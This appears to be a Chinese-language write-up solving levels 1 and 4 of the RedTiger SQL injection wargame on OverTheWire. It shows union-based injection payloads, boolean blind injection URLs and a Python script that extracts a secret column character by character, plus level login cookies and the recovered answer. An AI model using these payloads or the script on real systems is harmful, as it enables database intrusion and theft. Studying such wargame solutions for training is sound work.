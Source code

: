 ## Level 1

看到有个表单需要我们进行输入账号密码登录，登录成功后可以得到flag



查看是否有注入的点



点击页面上的 Category 得到 

![image-20210208112110744](https://fnoteimg.oss-cn-chengdu.aliyuncs.com/img/20210208112110.png)

从这里进行突破 进行盲注 拼接SQL

`level1.php?cat=1 and 1=2`

发现返回信息变了 说明这里存在注入点

![image-20210208112240251](https://fnoteimg.oss-cn-chengdu.aliyuncs.com/img/20210208112240.png)



1. 通过` order by` 得到字段个数为 4 个

`cat =1 order by 4`

2. 使用 union 进行联合查询，得到结果 3,4

![image-20210208112506268](https://fnoteimg.oss-cn-chengdu.aliyuncs.com/img/20210208112506.png)

3. 直接查询出  username和password

   ![image-20210208112801990](https://fnoteimg.oss-cn-chengdu.aliyuncs.com/img/20210208112802.png)

4. 登录 得到flag

## Level 4

这道题根据传入的参数不同，发现页面上只会显示0和1

`https://redtiger.labs.overthewire.org/level4.php?id=1 and 1=2` 显示0

`https://redtiger.labs.overthewire.org/level4.php?id=1 and 1=1` 显示1

由此可见，这道题应该用布尔盲注

思路：构造一个逻辑语句，来找到`keyword` 列的内容长度，然后用脚本跑出 `a-z` `A-Z` `0-9` 的结果

1. 首先猜查询的字段个数 

   `https://redtiger.labs.overthewire.org/level4.php?id=1 order by 2` 

   字段个数为2 

2. 猜内容长度

   `https://redtiger.labs.overthewire.org/level4.php?id=1 union select keyword,2 from level4_secret where length(keyword)=21`

   通过脚本跑出来 长度为21

3. 利用python脚本爆破答案

   跑得很慢，但是能跑出来 

   `killstickswithbr1cks!`

   ```python
   import requests
   import re
   import time
   
   url = 'https://redtiger.labs.overthewire.org/level4.php?{}'
   headers = {
       # 'referer': 'https://www.acfun.cn/',
       'Connection': 'close',
       'sec-ch-ua': '"Chromium";v="86", "\"Not\\A;Brand";v="99", "Google Chrome";v="86"',
       'user-agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.198 Safari/537.36',
       'content-type': 'application/x-www-form-urlencoded;charset=UTF-8',
       'Cookie': 'level2login=passwords_will_change_over_time_let_us_do_a_shitty_rhyme; level3login=feed_the_cat_who_eats_your_bread; level4login=put_the_kitten_on_your_head',
       'Hosts': 'redtiger.labs.overthewire.org'
   }
   session = requests.session()
   session.headers = headers
   session.keep_alive = False 防止多个连接，导致异常
   count = 1
   result = ''
   # 每个位置依次比较
   start = time.time()
   for i in range(1, 22):
       for s in range(1, 128):
           param = '1 union select keyword,2 from level4_secret where ascii(substr(keyword,{},1))={}'.format(i, s)
           r = session.get(url=url.format('id=' + param))
           # print(r.url)
           # 获取结果条数
           pattern = re.compile('.*Query.*returned.*(\\d).*', re.S)
           res = re.findall(pattern, r.text)[0]
           print('i=', i, '  res=', res, ' count=', count)
           if str(res) == '2':
               result += chr(s)
               break
           count += 1
   end = time.time()
   print('result=', result)
   print('总共耗时:{}s'.format(end - start))
   
   ```



4. 坑，跑出来才发现比较的时候忽略了大小写，所以全是大写的字母，由于跑得太慢，所以将大写字母的答案重新跑一边得到真实答案

   